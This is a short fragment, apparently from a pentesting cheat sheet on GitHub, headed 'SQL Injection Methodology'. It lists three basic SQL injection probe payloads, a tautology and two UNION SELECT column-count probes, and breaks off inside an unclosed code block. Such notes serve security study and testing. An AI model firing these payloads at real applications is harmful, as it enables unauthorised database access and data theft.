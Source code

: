 #### SQL Injection Methodology
```
' or1=1-- -

' UNION SELECT NULL,NULL,NULL,NULL-- -

' UNION SELECT 1,2,3,4-- -

